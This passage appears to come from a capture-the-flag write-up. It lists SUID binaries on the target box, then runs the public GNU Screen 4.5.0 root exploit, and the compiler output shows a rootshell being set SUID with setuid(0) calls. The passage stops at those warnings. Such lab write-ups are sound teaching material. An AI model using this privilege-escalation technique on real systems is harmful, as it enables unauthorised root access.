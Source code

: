 ```bash
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd

```

We see `/usr/bin/screen-4.5.0` that have a [exploit_link](https://www.exploit-db.com/exploits/41154)
```bash
pasta@foodctf:~$ nano exploit.sh
pasta@foodctf:~$ chmod +x exploit.sh
pasta@foodctf:~$ ./exploit.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
```
